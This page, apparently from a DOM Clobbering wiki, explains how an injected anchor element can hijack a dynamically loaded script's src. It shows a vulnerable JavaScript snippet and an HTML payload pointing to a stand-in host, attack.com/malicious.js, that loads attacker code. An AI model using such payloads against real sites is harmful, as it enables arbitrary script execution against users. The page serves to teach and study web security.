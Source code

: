 ```yaml
---
title: Examples
parent: Techniques
nav_order: 6
---
```


{% include toggle_color.html %}

# DOM Clobbering Wiki

Stable
{: .label .label-green }


## DOM Clobbering Examples

This section presents a few simple, hands-on examples of DOM Clobbering, capturing the corner-case behaviours of browsers for exploitation.


### Implicit Cast of HTMLAnchorElement to Href String

Consider the following code listing:

```js
1. var s = document.createElement('script');
2. s.src = window.CONF || 'custom-script.js';
3. document.body.appendChild(s);
```

Attackers can obtain arbitrary code execution by clobbering the `window.CONF` property in line 2, as it is used as the `src` attribute of a dynamically loaded script

For successful exploitation, the value of `window.CONF` must be an `string`, and with DOM Clobbering we replace it with an `HTMLElement` or `WindowProxy`, which could prevent us from exploiting this vulnerability. However, when assigning a value to `HTMLScriptElement.src`, if the value is an instance of `HTMLAnchorElement`, the browser implicitly casts the value to its `href` property value. 

**Exploitation.** To exploit the above code lisiting, attackers can inject the following payload:

```html
<a id=CONF href="https://attack.com/malicious.js">
```

Note that while `window.CONF` refers to an `HTMLAnchorElement`, the assignment to `HTMLScriptElement.src` on line 2 casts it to its `href` property value. 


